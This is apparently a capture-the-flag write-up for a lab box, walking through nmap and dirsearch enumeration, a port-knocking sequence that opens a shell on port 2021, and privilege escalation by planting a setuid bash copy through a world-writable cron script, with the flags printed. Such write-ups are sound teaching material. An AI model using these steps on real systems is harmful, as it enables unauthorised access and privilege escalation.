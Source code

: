 # Knock knock knocking on shuttles door

## service enumeration

### nmap

quick

```
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-03 07:36 EDT
Nmap scan report for 10.6.0.2
Host is up (0.078s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).

```

investigating the webserver there doesn't appear to be anything interesting, so I performed a directory bruteforce with the provided wordlist

```
└─$ dirsearch -u http://10.6.0.2/ -e txt -w ~/Documents/rough/hackyholidays/2021/knock_x3_shuttles-door/ChallengeWordlist.txt -r --recursion-depth 2                                                                                   1 ⨯

  _|. _ _  _  _  _ _|_    v0.4.1
 (_||| _) (/_(_|| (_| )

Extensions: txt | HTTP method: GET | Threads: 30 | Wordlist size: 998

Output File: /home/kali/.dirsearch/reports/10.6.0.2/_21-07-03_08-00-54.txt

Error Log: /home/kali/.dirsearch/logs/errors-21-07-03_08-00-54.log

Target: http://10.6.0.2/

[08:00:57] Starting: 
[08:01:02] 301 -  309B  - /WhoIsThere  ->  http://10.6.0.2/WhoIsThere/     (Added to queue)
[08:01:03] Starting: WhoIsThere/                            
                                                               
Task Completed

```

we find one directory, /WhoIsThere

navigating to this we find a file with the contents

```
It would be a tcp syn to knock on the doors of air locks:
1337
68
61
78
 
```

this is obviously hinting at port knocking, a technique where if a connection is made to those ports in that order, another port will be opened

flag 1: ctf{1337,68,61,78}

we perform the port knocking with the following technique:



```
telnet 10.6.0.2 1337; telnet 10.6.0.2 68; telnet 10.6.0.2 61; telnet 10.6.0.2 78;
```

I quickly fired off a nmap scan and discovered port 2021 is open. with this found I modified the command and got a shell


```
└─$ telnet 10.6.0.2 1337; telnet 10.6.0.2 68; telnet 10.6.0.2 61; telnet 10.6.0.2 78; nc 10.6.0.2 2021            
Trying 10.6.0.2...
telnet: Unable to connect to remote host: Connection refused
Trying 10.6.0.2...
telnet: Unable to connect to remote host: Connection refused
Trying 10.6.0.2...
telnet: Unable to connect to remote host: Connection refused
Trying 10.6.0.2...
telnet: Unable to connect to remote host: Connection refused
whoami
spaceotter
ls
flag.txt
cat flag.txt
ctf{we_have_lift_off}
```

flag 2: ctf{we_have_lift_off}

### Privilege Escalation

Frustartingly this box did not have curl, wget ,nc or anything else I could use to get an enumeration script on, but thankfully the privesc was relativelly simple
after some brief digging around I found the file `/opt/safetyCheck.sh` which was owned by root and world writable. Looking some more I found a cronjob,
`/etc/cron.d/cronJob` which run the script as the user `control` every minute so simply append a command to make a copy of bash setuid to the script in /opt

```
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > safetyCheck.sh
```

now in my case the cronjob wasn't running for some reason, after trying a few commands including:

```
service cron restart
service cron force-reload
service cron start
```

it starting running again, which one fixed it? no idea ¯\_(ツ)_/¯

so we get a copy of bash owned by control

```
-rwsr-sr-x 1 control control 1183448 Jul  3 13:10 bash   
```

now simply run it with `-p` to get a shell as control

```
/tmp/bash -p
```

now we can read the flag in control's home directory 

```
cat flag.txt    
ctf{sudoToTheMoon} 
```
